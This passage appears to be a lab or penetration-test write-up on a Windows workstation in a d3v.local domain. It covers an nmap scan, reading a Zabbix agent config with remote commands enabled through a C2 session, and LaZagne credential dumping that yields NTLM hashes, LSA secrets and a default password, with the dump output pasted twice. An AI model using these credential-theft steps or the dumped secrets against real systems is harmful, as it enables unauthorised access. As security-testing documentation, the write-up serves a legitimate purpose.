


Same here we can run the NMAP to check the server.

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: D3V
|   NetBIOS_Domain_Name: D3V
|   NetBIOS_Computer_Name: D3WKT001
|   DNS_Domain_Name: d3v.local
|   DNS_Computer_Name: d3wkt001.d3v.local
|   DNS_Tree_Name: d3v.local
|   Product_Version: 10.0.19041
|_  System_Time: 2024-06-24T16:07:05+00:00
|_ssl-date: 2024-06-24T16:07:45+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=d3wkt001.d3v.local
| Issuer: commonName=d3wkt001.d3v.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-23T03:35:24
| Not valid after:  2024-12-23T03:35:24
| MD5:   c4c4:4efd:222e:85b9:52e1:0fed:9288:159b
| SHA-1: 4e95:8f59:39bc:4323:9227:d8a6:4653:303f:1643:3686
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQRgyHAiGTT6dIedoynmENsTANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJkM3drdDAwMS5kM3YubG9jYWwwHhcNMjQwNjIzMDMzNTI0WhcN
| MjQxMjIzMDMzNTI0WjAdMRswGQYDVQQDExJkM3drdDAwMS5kM3YubG9jYWwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCfklNq7WG8n6sOtzHXEXBXk9qC
| vSFr0xZUmHBNb6Oz4PM23NBGHsVcx3EPqf6iCOM8s78xBpoqhmdpbQA8olREjvdn
| YQPRC6LchC924DtC7K70XPmko4mtMLtJ7H6eBTWvUiL/5RgR0RhCTVnhEZHotTlO
| ukLO/cQcL7hYYKxAE1G8gJd5KwC+/NrdVOGbYNUiT4aRhkC3TzpFlte+JuuGMDKv
| NJiJSd5ipDlea8NghkFdu2ySeBoZFYBEyjLHsHSRCZ9orOOX7YWyTm0DFj+UKJjG
| xAmmtNQbEaChgWIEwm3CYBm2ZvNjl/L6cdzdF4E3bus9KIST6u0Z+r7UBhZFAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEANiZ4Uzk4nDGuPMh+unnlgrHHDky7VCN6CEJjAsvGWVyr9aE0
| zWVLismXg1X9+PS6d0ehSlLT8PV1h4ZmLTOSOV/+zL48x51lELY/dMQJcmcpJa6d
| O6ScYDNMk8WSH5/vJuIHhZd7/3QB5N0nbCjQ4kIZ5qBeTwdqK97yrz+/E/4RfZ1N
| 772E2J6e4LqyOzm5x2BkM2632uI5LT+Rq3JQE80EBccYXzPoNcOIPCPqxAahNTtd
| ekEl95aDcaARbzs05asnFhG+3JLRh7tcy8pqkVVPj8Lp51lgGnIKUlXGwJ5I1tsW
| XuPVqiD+SiwXdnYnQCWUEKX9hQPNfc8j5My+fw==
|_-----END CERTIFICATE-----
5040/tcp  open  unknown       syn-ack ttl 64
10050/tcp open  tcpwrapped    syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=135%CT=%CU=%PV=Y%G=N%TM=667999CE%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 37.581 days (since Sat May 18 04:11:23 2024)
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

&nbsp;

# Pwning

We noticed that this machine is reached via Zabbix agent.

```
Directory of C:\Program Files\ZabbixWinAgent\conf\*:

25/06/2024  23:34           166 B          zabbix_agentd
               1 File(s)     166 B
               0 Folder(s)

25/06/2024 17:32:32 [yovecio] Demon » cat zabbix_agentd
[*] [2347BDEC] Tasked demon to display content of zabbix_agentd
[*] File content of zabbix_agentd (166):
Server=monitor.cyber.local
ServerActive=monitor.cyber.local
ListenPort=10050
Hostname=D3WKT001
HostMetadataItem=system.uname
EnableRemoteCommands=1
LogFile=No
```

Where we managed to dump the cleartext credentials of James.Peck





Since the zabbix agent was running as NTSystem was easy peasy!


I also tried to run Lazagne.exe but with no more informations thank what I already have:

```
PS C:\Temp> ./LaZagne.exe -all
PS C:\Temp>
PS C:\Temp>
PS C:\Temp>
PS C:\Temp>
PS C:\Temp> ./LaZagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 015499e5-d602-47d6-b800-d5810587df79
[+] System masterkey decrypted for 046bd0ec-e43a-4a71-b817-d28f293f231a
[+] System masterkey decrypted for 11b6efa3-5625-4dbf-91bb-b0a7db072994
[+] System masterkey decrypted for 252ef42b-12c1-4fda-b899-25b3f768db3d
[+] System masterkey decrypted for 29c09ff4-9b8a-4809-bffe-b0d64da82e05
[+] System masterkey decrypted for 755dff24-afbe-40a0-97cc-988a944ab65b
[+] System masterkey decrypted for d062e213-aea8-4d46-ad4f-5570eea4609a
[+] System masterkey decrypted for ed39c499-6ae8-422a-ae31-0bcc63532436

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:c916f9c0f83388bd46941a5e7f0c585d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:954fd25162ffdda445dca6edec93b934:::

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   2A 00 3F 00 75 00 58 00 36 00 4F 00 27 00 65 00    *.?.u.X.6.O.'.e.
0020   33 00 72 00 66 00 31 00 20 00 2B 00 69 00 23 00    3.r.f.1. .+.i.#.
0030   34 00 30 00 52 00 37 00 26 00 46 00 27 00 69 00    4.0.R.7.&.F.'.i.
0040   32 00 42 00 6C 00 6C 00 32 00 27 00 4E 00 2B 00    2.B.l.l.2.'.N.+.
0050   3F 00 5D 00 6B 00 64 00 21 00 4B 00 56 00 72 00    ?.].k.d.!.K.V.r.
0060   23 00 26 00 79 00 79 00 5F 00 51 00 49 00 58 00    #.&.y.y._.Q.I.X.
0070   77 00 77 00 38 00 55 00 66 00 73 00 29 00 6E 00    w.w.8.U.f.s.).n.
0080   57 00 50 00 54 00 67 00 42 00 29 00 3C 00 5B 00    W.P.T.g.B.).<.[.
0090   34 00 4B 00 6E 00 6B 00 4B 00 55 00 59 00 50 00    4.K.n.k.K.U.Y.P.
00A0   27 00 31 00 34 00 57 00 72 00 5B 00 2B 00 53 00    '.1.4.W.r.[.+.S.
00B0   26 00 2C 00 4B 00 61 00 25 00 65 00 4F 00 71 00    &.,.K.a.%.e.O.q.
00C0   3E 00 26 00 60 00 42 00 24 00 63 00 6B 00 25 00    >.&.`.B.$.c.k.%.
00D0   6C 00 69 00 38 00 20 00 42 00 5D 00 64 00 37 00    l.i.8. .B.].d.7.
00E0   6D 00 4B 00 27 00 5D 00 72 00 79 00 5B 00 4B 00    m.K.'.].r.y.[.K.
00F0   48 00 4B 00 6B 00 2A 00 35 00 75 00 55 00 7A 00    H.K.k.*.5.u.U.z.
0100   A9 91 0A EC 48 20 76 1A 3C 73 83 BD DA 62 03 53    ....H v.<s...b.S

CachedDefaultPassword
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   F1 E4 D6 D8 43 D7 D1 1E 82 7D 6E 9C E7 9D 08 92    ....C....}n.....

DefaultPassword
0000   14 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   6F 00 68 00 44 00 36 00 75 00 62 00 6F 00 35 00    o.h.D.6.u.b.o.5.
0020   69 00 65 00 00 00 00 00 00 00 00 00 00 00 00 00    i.e.............

DPAPI_SYSTEM
0000   01 00 00 00 19 F4 01 43 0E E3 60 73 CF 42 93 0E    .......C..`s.B..
0010   F8 BB FD DB D8 8A 4E 9F C3 92 84 B8 E4 B8 10 48    ......N........H
0020   8D 32 58 23 1C FA 04 B1 74 60 B7 97                .2X#....t`..

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   80 91 DF 97 05 38 6D 30 B4 20 36 D9 6A 8C 86 CC    .....8m0. 6.j...
0020   3F FE E9 74 35 A5 25 41 F9 81 96 F6 50 2F 05 81    ?..t5.%A....P/..
0030   E5 E7 E2 9D C6 EF 5E 85 73 CC C8 87 CB 1D CE A0    ......^.s.......
0040   6A D1 02 AC 23 5C FC 55 00 7D A7 6D 4E 95 09 1B    j...#..U.}.mN...
0050   40 31 57 2C 16 46 04 90 BC 1E A8 EB 2A 9A 58 6E    @1W,.F......*.Xn


------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:batch=TaskScheduler:Task:{F688ABAF-5FE7-4AF1-AE84-B382D811F5C3}
Login: WINDOWS-10\Administrator


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 24.46864628791809
PS C:\Temp>


PS C:\Temp> ./LaZagne.exe -all
PS C:\Temp>
PS C:\Temp>
PS C:\Temp>
PS C:\Temp>
PS C:\Temp> ./LaZagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 015499e5-d602-47d6-b800-d5810587df79
[+] System masterkey decrypted for 046bd0ec-e43a-4a71-b817-d28f293f231a
[+] System masterkey decrypted for 11b6efa3-5625-4dbf-91bb-b0a7db072994
[+] System masterkey decrypted for 252ef42b-12c1-4fda-b899-25b3f768db3d
[+] System masterkey decrypted for 29c09ff4-9b8a-4809-bffe-b0d64da82e05
[+] System masterkey decrypted for 755dff24-afbe-40a0-97cc-988a944ab65b
[+] System masterkey decrypted for d062e213-aea8-4d46-ad4f-5570eea4609a
[+] System masterkey decrypted for ed39c499-6ae8-422a-ae31-0bcc63532436

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:c916f9c0f83388bd46941a5e7f0c585d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:954fd25162ffdda445dca6edec93b934:::

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   2A 00 3F 00 75 00 58 00 36 00 4F 00 27 00 65 00    *.?.u.X.6.O.'.e.
0020   33 00 72 00 66 00 31 00 20 00 2B 00 69 00 23 00    3.r.f.1. .+.i.#.
0030   34 00 30 00 52 00 37 00 26 00 46 00 27 00 69 00    4.0.R.7.&.F.'.i.
0040   32 00 42 00 6C 00 6C 00 32 00 27 00 4E 00 2B 00    2.B.l.l.2.'.N.+.
0050   3F 00 5D 00 6B 00 64 00 21 00 4B 00 56 00 72 00    ?.].k.d.!.K.V.r.
0060   23 00 26 00 79 00 79 00 5F 00 51 00 49 00 58 00    #.&.y.y._.Q.I.X.
0070   77 00 77 00 38 00 55 00 66 00 73 00 29 00 6E 00    w.w.8.U.f.s.).n.
0080   57 00 50 00 54 00 67 00 42 00 29 00 3C 00 5B 00    W.P.T.g.B.).<.[.
0090   34 00 4B 00 6E 00 6B 00 4B 00 55 00 59 00 50 00    4.K.n.k.K.U.Y.P.
00A0   27 00 31 00 34 00 57 00 72 00 5B 00 2B 00 53 00    '.1.4.W.r.[.+.S.
00B0   26 00 2C 00 4B 00 61 00 25 00 65 00 4F 00 71 00    &.,.K.a.%.e.O.q.
00C0   3E 00 26 00 60 00 42 00 24 00 63 00 6B 00 25 00    >.&.`.B.$.c.k.%.
00D0   6C 00 69 00 38 00 20 00 42 00 5D 00 64 00 37 00    l.i.8. .B.].d.7.
00E0   6D 00 4B 00 27 00 5D 00 72 00 79 00 5B 00 4B 00    m.K.'.].r.y.[.K.
00F0   48 00 4B 00 6B 00 2A 00 35 00 75 00 55 00 7A 00    H.K.k.*.5.u.U.z.
0100   A9 91 0A EC 48 20 76 1A 3C 73 83 BD DA 62 03 53    ....H v.<s...b.S

CachedDefaultPassword
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   F1 E4 D6 D8 43 D7 D1 1E 82 7D 6E 9C E7 9D 08 92    ....C....}n.....

DefaultPassword
0000   14 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   6F 00 68 00 44 00 36 00 75 00 62 00 6F 00 35 00    o.h.D.6.u.b.o.5.
0020   69 00 65 00 00 00 00 00 00 00 00 00 00 00 00 00    i.e.............

DPAPI_SYSTEM
0000   01 00 00 00 19 F4 01 43 0E E3 60 73 CF 42 93 0E    .......C..`s.B..
0010   F8 BB FD DB D8 8A 4E 9F C3 92 84 B8 E4 B8 10 48    ......N........H
0020   8D 32 58 23 1C FA 04 B1 74 60 B7 97                .2X#....t`..

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   80 91 DF 97 05 38 6D 30 B4 20 36 D9 6A 8C 86 CC    .....8m0. 6.j...
0020   3F FE E9 74 35 A5 25 41 F9 81 96 F6 50 2F 05 81    ?..t5.%A....P/..
0030   E5 E7 E2 9D C6 EF 5E 85 73 CC C8 87 CB 1D CE A0    ......^.s.......
0040   6A D1 02 AC 23 5C FC 55 00 7D A7 6D 4E 95 09 1B    j...#..U.}.mN...
0050   40 31 57 2C 16 46 04 90 BC 1E A8 EB 2A 9A 58 6E    @1W,.F......*.Xn


------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:batch=TaskScheduler:Task:{F688ABAF-5FE7-4AF1-AE84-B382D811F5C3}
Login: WINDOWS-10\Administrator


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 24.46864628791809
```

Now even mimikatz.exe didn't show more than what i already know so i feel confident I can move forward to the Jenikns machine!

&nbsp;

&nbsp;